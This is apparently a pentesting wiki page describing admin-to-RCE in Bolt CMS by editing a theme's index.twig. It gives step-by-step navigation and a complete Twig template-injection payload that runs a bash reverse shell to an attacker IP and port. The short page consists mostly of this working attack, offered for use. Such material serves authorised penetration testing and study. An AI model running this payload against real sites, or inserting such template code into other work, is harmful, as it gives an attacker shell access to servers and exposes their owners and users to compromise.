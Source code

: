 # Bolt CMS


## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

![[../../images/image (771).png|]]


- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [[../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php|template injection (Twig)]], like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

![[../../images/image (948).png|]]


- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed



